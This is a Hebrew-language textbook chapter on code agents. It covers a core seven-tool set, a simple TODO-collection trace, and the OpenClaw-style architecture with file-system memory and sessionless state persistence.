










# סוכן קוד ויצירת קוד

הפרקים הקודמים העמיקו בהנדסת הקשר (פרקים 2 ו‑3) ובעיצוב כלים (פרק 4). פרק זה מחבר את אבני הבניין הללו כדי לענות על שאלה מרכזית: **כיצד נראית הארכיטקטורה של סוכן לשימוש כללי המסוגל לטפל במשימות שרירותיות?**

התשובה היא: ל**סוכן לשימוש כללי המכוון למשימות פתוחות** יש בליבתו **סוכן קוד** (סוכן שיכול לכתוב, לשנות ולהריץ קוד באופן אוטונומי) בתוספת **מערכת קבצים** — סביבת העבודה שבה הסוכן מאחסן קוד, נתונים, זיכרון ותוצאות ביניים, בדומה מאוד למתכנת המנהל פרויקטים באמצעות תיקיות במחשב. מ‑Manus ועד OpenClaw, כל הסוכנים הכלליים הפתוחים המוצלחים עוקבים אחר פרדיגמה זו.

מדוע יצירת קוד יכולה לשאת משקל זה? משום שהיא אינה רק כלי, אלא **מטא‑יכולת** — היכולת ליצור כלים ויכולות חדשים באופן דינמי בזמן ריצה. המחצית השנייה של פרק זה מפתחת את המושג הזה במלואו, יחד עם ששת הכיוונים שבהם הוא חל.

קוד משרת סוכן בשתי רמות. כמדיום ל**חשיבה**, קוד אוכף קפדנות — "גיל מעל 18 וזהות מאומתת" מאפשר קריאות מרובות בשפה טבעית, אך כשהוא נכתב כקוד הוא מאפשר בדיוק אחת. כמדיום ל**ביטוי**, קוד שרץ הוא הוכחה בפני עצמו לעקביות לוגית, ותוצאת ההרצה שלו מספקת אמת מידה אובייקטיבית לנכונות.

פרק זה מתחיל ביכולות הבסיסיות של סוכן קוד ובארכיטקטורת הסוכן לשימוש כללי (OpenClaw), ולאחר מכן מדגים את יישום יצירת הקוד בתרחישים שונים — מהיסק מתמטי ויצירת תוכן ועד מטא‑יכולות ברמת המערכת.

## סוכן קוד

### תכנות כיכולת יסוד של סוכן

**יצירת קוד אינה נחלתם הבלעדית של כמה סוכנים מתמחים, אלא יכולת יסוד שכל סוכן לשימוש כללי צריך להחזיק.** עם המודלים מהשורה הראשונה של ימינו, מתן יכולת תכנות בסיסית לסוכן אינו דורש ארכיטקטורה מורכבת.

שקלו משימה טיפוסית: "ארגן את כל הערות ה‑TODO שנותרו במאגר, סווג אותן לפי עדיפות, וצור issues." להשלמתה נדרשים עיון במבנה הספריות (ls/glob), קריאת קוד (read), שינוי קבצים (edit/write), הרצת פקודות (bash), וחיפוש דפוסים (grep/search). חמש קטגוריות פעולות אלה מכסות כמעט כל פעולת ליבה של סוכן קוד, והן המקור לשבעת הכלים שלהלן. למען הדיוק, חמש הקטגוריות מתמפות באופן טבעי לשישה כלים; השביעי, מפרש הקוד, מכסה פעולות "הרצת קוד / חישוב" ובמימושים מסוימים פשוט מקופל לתוך Bash — שבעת הכלים הם מערך ייחוס מנורמל, ולא מיפוי חד‑חד‑ערכי מדויק לחמש הקטגוריות.

סוכן קוד בסיסי זקוק רק לצידוד בשבעת כלי הליבה הבאים:

1. **מפרש קוד**: מספק ארגז חול מבודד (סביבת ריצה מאובטחת המופרדת ממערכת המארח) שבו קוד Python יכול לרוץ בבטחה מבלי ששגיאות הרצה ישפיעו על המארח
2. **Bash Shell**: מריץ פקודות בטרמינל, כגון הרצת מקרי בדיקה או עיבוד קבצים בפורמטים מיוחדים
3. **כלי קריאת קבצים**: קורא קוד, תצורה, תיעוד, יומנים וכו'
4. **כלי כתיבת קבצים**: יוצר קבצים חדשים או דורס לחלוטין קבצים קיימים
5. **כלי עריכת קבצים**: מבצע שינויים חלקיים בקבצים קיימים, פעולת ליבה לתחזוקת קוד ולאיטרציה
6. **כלי חיפוש שמות קבצים (Glob)**: מאתר במהירות קובצי יעד במערכת הקבצים באמצעות התאמת דפוסים, למשל שימוש ב‑`**/*.py` כדי למצוא את כל קובצי ה‑Python בפרויקט
7. **כלי חיפוש בתוכן קבצים (Grep)**: מחפש דפוסי טקסט ספציפיים בתוך תוכן הקבצים, למשל מציאת כל שורות הקוד הקוראות לפונקציה מסוימת

שבעת הכלים הללו מהווים ארגז כלים שלם אך מינימלי שכמעט כל מערכת סוכן יכולה לשלב בעלות נמוכה. במימוש, כולם יכולים להיחשף כשירותי כלים מתוקננים באמצעות פרוטוקול MCP שהוצג בפרק 4. שימו לב שערכת כלים זו היא תצורה בסיסית ספציפית לסוכני קוד, ונבדלת מחמש קטגוריות הכלים הכלליות (תפיסה/ביצוע/שיתוף פעולה/הפעלת אירועים/תקשורת עם המשתמש) שסווגו לפי כיוון ההפעלה ותפקיד תפקודי בפרק 4 — שבעת כלי הליבה מכסים בעיקר את קטגוריות התפיסה והביצוע. ומה לגבי שיתוף פעולה, הפעלת אירועים ותקשורת עם המשתמש? בסוכן קוד אלה בדרך כלל תפקיד המסגרת, ולא של שכבת הכלים — האצלה לתת‑סוכן, למשל, מטופלת על ידי לוגיקת התזמור של המסגרת ולא על ידי כלי שיתוף פעולה ייעודיים.

כדי לראות כיצד שבעת הכלים פועלים יחד, קחו את הפשוטה שבמשימות. נניח שהמשתמש אומר "עזור לי לאסוף רשימה של כל הערות ה‑TODO בפרויקט":

```text
Agent (thinking): Need to find all code lines containing TODO.
Agent → Grep("TODO", glob="**/*.py")          # Search file content
Tool returns:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent (thinking): Found 3 TODOs, compile them into a list and write to a file.
Agent → Write("TODO_LIST.md", content="...")   # Write file
Tool returns: File created

Agent: Done. Found 3 TODO items, the list is saved in TODO_LIST.md.
```

התהליך כולו השתמש בשני כלים בלבד: Grep (חיפוש תוכן) ו‑Write (כתיבת קובץ). אילו המשימה הייתה מורכבת יותר — כמו "ספור את מספר ה‑TODO לכל מודול ושרטט תרשים עמודות" — הסוכן היה משתמש גם במפרש הקוד כדי להריץ קוד Python לסטטיסטיקה ולשרטוט. שבעת הכלים פשוטים בנפרד; בשילוב הם מכסים טווח משימות מרשים.

הקורא עשוי לשאול: מדוע שבעה כלים ולא שישה? למעשה, כלי אחד — Bash Shell — היה מספיק. OpenAI Codex מספק את Bash Shell בלבד, ומבצע באמצעות הכלי היחיד הזה את כל פעולות הקריאה, הכתיבה והחיפוש בקבצים. ובכל זאת, סוכנים אחרים משמרים כלים נפרדים לקריאת קבצים ולכתיבתם. שבעת הכלים בספר זה מפורטים בנפרד כדי שהקורא יבין בקלות אילו יכולות בסיסיות דרושות לסוכן קוד.

מדוע לכל סוכן לשימוש כללי צריכה להיות יכולת תכנות? משום שיצירת קוד אינה עוסקת רק בכתיבת תוכניות — היא דרך לשימוש כללי לפתרון בעיות. מול בעיה מתמטית, הסוכן יכול לכתוב קוד ולמסור אותו לפותר לתשובה מדויקת; מול כלל עסקי שיש לקבע, קוד מדויק בהרבה מכל תיאור בשפה טבעית; כשחסר לו כלי, הוא יכול לכתוב אחד במקום; כשפורמט נתונים משתנה, הוא יכול לייצר לוגיקת ניתוח חדשה. הסעיפים הבאים נוטלים כל אחד מהתרחישים הללו בתורו. סוכן בעל יכולת תכנות בסיסית — אפילו כזה המצויד בלא יותר משבעת הכלים הפשוטים שלעיל — יכול להרחיב את יכולותיו בכל פעם שצורך חדש מתעורר.

### מקרה בוחן: מ‑Manus ל‑OpenClaw — ליבת הקוד של סוכנים לשימוש כללי

מוצרי Agent לשימוש כללי כגון Manus ו‑OpenClaw משלבים שלוש יכולות מרכזיות — Deep Research, Computer Use ו‑Coding — במערכת אחת. אם כך, מדוע תחילת הפרק הזה קראה ל‑Coding Agent הליבה ולא לאף אחת מהשתיים האחרות?

משום שכמעט כל יצירת תוכן יעילה מסתכמת בסופו של דבר בקוד. מצגות PowerPoint ומסמכי Word הם למעשה קוד בפורמט OOXML ‏(Office Open XML, התקן הפתוח של מיקרוסופט למסמכי Office). ניתן ליצור דוחות PDF באמצעות Markdown, HTML או LaTeX; סקריפטי Python יכולים לבצע ניתוח נתונים והדמיה; אפילו רצפים מוצלחים של פעולת דפדפן מעבודת GUI יכולים להילכד כקוד שניתן לשימוש חוזר (ראו פרק 9). חיפוש וסינתזת מידע ב‑Deep Research ניתנים למימוש באמצעות בקשות רשת וניתוח מונחי‑קוד. Computer Use גמיש יותר, אך קריאות קוד ישירות או קריאות API הן בדרך כלל זולות, מהירות ואמינות יותר עבור פעולות שקולות. יצירת קוד היא בסיס היכולות היעיל ביותר, הזול ביותר והניתן ביותר לשימוש חוזר.



נבין ארכיטקטורה זו באמצעות זרימת ביצוע קונקרטית. נניח שהמשתמש מבקש "עזור לי לנתח את נתוני המכירות של הרבעון האחרון וליצור דוח סיכום":

1. **קריאת זיכרון**: הסוכן קורא את `MEMORY.md` ומגלה שהמשתמש מעדיף דוחות בפורמט PDF ושמקור הנתונים הוא Google Sheets
2. **קריאה לכלים**: משיג הוראות שימוש ל‑API של Google Sheets באמצעות מודול חיפוש הרשת, ומוריד נתונים באמצעות הרצת קוד
3. **כתיבת קוד**: מייצר סקריפט ניתוח נתונים ב‑Python (צבירה ב‑pandas, ויזואליזציה ב‑matplotlib)
4. **יצירת תוצרים**: כותב את תוצאות הניתוח ל‑`report.pdf`, ואת התרשימים לספריית `charts/`
5. **עדכון זיכרון**: מתעד ב‑`MEMORY.md` ש"נתוני המכירות של המשתמש נמצאים ב‑Google Sheets, מזהה: xxx", כך שלא יצטרך לשאול בפעם הבאה

לאורך התהליך כולו, מערכת הקבצים היא צומת זרימת המידע — הזיכרון נקרא מקבצים, התוצרים נכתבים לקבצים, וגם הניסיון נשמר כקבצים.

**מערכת הקבצים כצומת המרכזי של הסוכן.** בעיצוב של OpenClaw, מערכת הקבצים היא הרבה יותר מאחסון נתונים — היא הצומת המרכזי לזיכרון, לידע וליכולות של הסוכן. הזיכרון ארוך הטווח של הסוכן מאוחסן ב‑`MEMORY.md` (עובדות ברמה גבוהה והעדפות משתמש) וביומני Markdown המאורכבים לפי תאריך. בחירת Markdown על פני מסד נתונים וקטורי עשויה להיראות מנוגדת לאינטואיציה, אך היא אפקטיבית במיוחד: משתמשים יכולים לפתוח קבצים ישירות כדי לקרוא ולשנות את זיכרון הסוכן (אם הסוכן זוכר משהו לא נכון, פשוט מוחקים את השורה ההיא), Markdown משמר באופן טבעי סדר כרונולוגי כדי להימנע מבלבול זמני באחזור סמנטי, והוא תומך בבקרת גרסאות וברולבק באמצעות Git.

חשוב מכך, מכיוון שהסוכן יכול לכתוב קבצים, יש לו את האמצעים הטכניים לשנות את התוצרים החיצוניים שלו עצמו. כאשר סוכן מבצע משימה בפעם הראשונה ומגלה מידע מרכזי שלא הכיר קודם — לדוגמה, כשהוא מתקשר לבנק מסוים, הוא לומד שהבנק דורש את כתובת הסניף לאימות זהות — הוא יכול תחילה לכתוב את התגלית לרשומה. הקביעה מתי רשומה כזו מספקת כדי להפוך לידע אמין, להוראה או לתוכנית עדיין דורשת מסלולים נוספים ואימות תוצאות. זוהי בעיית ההתפתחות המתמשכת הנדונה בפרק 9.

**גבול התחולה: אילו Agents משתמשים ב‑Coding כאדריכלות הליבה שלהם.** המסקנה ש"Coding Agent הוא הליבה של Agent לשימוש כללי" חלה בעיקר על **Agents כלליים המכוונים למשימות פתוחות** — תרחישים כמו מחקר עמוק, יצירת תוכן ועיבוד נתונים, שבהם גבולות המשימה אינם ודאיים וצורות התוצרים מגוונות. בתרחישים כאלה אי אפשר למנות מראש את כל הכלים הדרושים; יצירת קוד, כמטא‑יכולת, מספקת את המסלול החסכוני ביותר להרחבה דינמית של גבולות היכולת, ולכן נעשית ליבת הארכיטקטורה. לעומת זאת, Agents לשירות לקוחות בתחום אנכי פועלים במרחבי משימה סגורים יחסית, עם ארכיטקטורות ליבה הבנויות סביב תהליכים עסקיים קבועים, כלים תחומיים ואסטרטגיות דיאלוג; שם, קוד הוא כלי בארגז הכלים ולא מרכז הארכיטקטורה. עם זאת, גם שם, תכנות הוא יכולת יסוד חשובה: חישוב מדויק, עיבוד נתונים ואימות כללים כולם תלויים בו.

בהמשך, נדון בשני עיצובים — מצב האינטראקציה "זמין תמיד" וארכיטקטורת האבטחה — שעשויים להיראות במבט ראשון בלתי קשורים לנושא סוכן הקוד. עם זאת, הם קובעים ישירות כיצד הסוכן מנהל את סביבת הרצת הקוד ואת מצב מערכת הקבצים, שהם דאגות ליבה של סוכן קוד. (קוראים שרוצים תחילה להבין כיצד סוכן קוד עובד צעד אחר צעד יכולים לדלג קדימה לסעיף "זרימת העבודה הכוללת של סוכן קוד" ולחזור לכאן לעיצוב האינטראקציה והאבטחה.)

OpenClaw מאמץ עיצוב **חסר סשן (Sessionless)**: משתמשים אינם צריכים להתקין אפליקציה או להתחבר אליה, או לפתוח אחת לפני כל אינטראקציה; הסוכן מקוון תמיד, ומשתמשים יכולים לשלוח הודעה בכל עת דרך פלטפורמת ההודעות שהם כבר משתמשים בה כדי לקבל תגובה — פרדיגמת אינטראקציה זו ותשתית ניתוב ההודעות של ה‑Gateway והארכיטקטורה מונחית האירועים שביסודה נדונו בפירוט בסעיף כלי התקשורת עם המשתמש בפרק 6 ואינן חוזרות כאן. מה שראוי להדגשה הוא התנאי המקדים לכך שפרדיגמה זו תעבוד: מודלים גדולים הבשילו מספיק כדי לשמש כ"בסיס אינטליגנטי" מסוג חדש — בדומה לאופן שבו מערכת הפעלה מסורתית מפשיטה חומרה ומספקת ממשק אחיד ליישומי השכבה העליונה, מודלים גדולים מפשיטים את מורכבות הבנת השפה, ההיסק והתכנון, ומספקים הפשטה אינטליגנטית אחידה לסוכני השכבה העליונה. דווקא בזכות בסיס זה, פרדיגמת "מקוון תמיד + תגובה מיידית" ניתנת להנדסה בעלות נמוכה.

עבור סוכן קוד, האתגר ההנדסי המרכזי של פעולה חסרת סשן הוא **שימור סביבת הרצת הקוד ומצב מערכת הקבצים בין הודעות**. שתי הודעות משתמש עשויות להיות במרחק דקות זו מזו או במרחק ימים, ועבודת הסוכן נשענת על כמות גדולה של מצב סמוי: חבילות שהותקנו בארגז החול, ספריית העבודה ומשתני הסביבה של סשן הטרמינל, שרתי פיתוח ברקע, וקבצים שנכתבו חלקית. גישתה של OpenClaw היא לנהל מצב בשתי שכבות. **מצב מערכת הקבצים מתמיד מטבעו** — ספריית סביבת העבודה ממופה לאחסון מתמיד מחוץ לארגז החול, ולכן קוד, נתונים ותוצרי ביניים שורדים בין הודעות ובין הפעלות מחדש של ארגז החול; זו משמעות נוספת של "מערכת הקבצים כצומת המרכזי של הסוכן". **מצב התהליכים נשמר חי או נבנה מחדש לפי דרישה** — ארגז החול וסשן הטרמינל שלו נשארים רצים במהלך תקופות פעילות כדי להימנע מהתנעה קרה, מכניסה מחדש לספריית העבודה ומהפעלה מחדש של הסביבה הווירטואלית עבור כל הודעה; הם מושמדים לאחר פסק זמן של חוסר פעילות כדי לשחרר משאבים, אך לפני ההשמדה, מצב סביבה בר‑סריאליזציה (ספריית עבודה, משתני סביבה, רשימת משימות רקע) נרשם לקובצי סביבת העבודה, והסוכן נבנה מחדש מרשומות אלה עם היקיצה הבאה. סשן הטרמינל המתמיד הנדון בסעיף "התמדת מצב בסביבת הרצת הפקודות" בהמשך פרק זה הוא המקבילה של מנגנון זה בתוך משימה יחידה; Sessionless מרחיב את אותה בעיה לסקאלת זמן המשתרעת על הודעות וימים.

Sessionless אינו חף מתחזוקה — כל הודעת משתמש דורשת **טעינה מחדש של המסלול המלא ומצב העבודה**, מה שמעניק חשיבות עליונה לסריאליזציית מצב יעילה ולאסטרטגיות דחיסת מסלול אפקטיביות; עקרונות העיצוב של דחיסת מסלול כוסו בסעיף "אסטרטגיות דחיסת הקשר" בפרק 2, בעוד שפרק זה מתמקד בפשרות ההנדסיות שארכיטקטורת ה‑Sessionless כופה.

### זרימת העבודה הכוללת של סוכן קוד




**תיעוד הפרויקט.**

עבודתו של סוכן קוד מתחילה בהבנה שיטתית של הפרויקט. כאשר סוכן נתקל לראשונה במאגר קוד, תפקידו הראשון אינו להתחיל לשנות קוד אלא לבנות מסגרת קוגניטיבית לפרויקט כולו — בדיוק כפי שמהנדס חדש אינו דוחף קוד ביומו הראשון, אלא מתחיל בהיכרות עם השטח. הסוכן מתחיל בבדיקה האם לפרויקט יש תיעוד — README, מסמכי עיצוב ארכיטקטוני, מדריכי מפתחים.

אם מסמכים מרכזיים חסרים, הסוכן אינו צריך להתחיל לעבוד בעיוורון. עליו לבחון באופן שיטתי את בסיס הקוד, לזהות את המודולים העיקריים, ההפשטות המרכזיות ותלויות הרכיבים, ולנסח סקירת ארכיטקטורה, מדריך ספריות והוראות להרצת בדיקות. מסמכים אלה משמשים כתוכנית אב לעבודתו הבאה של הסוכן ומספקים נקודת כניסה למפתחים אחרים. הדבר מגלם עיקרון מרכזי: החצנת הידע היא תנאי מקדים לשיתוף פעולה יעיל.

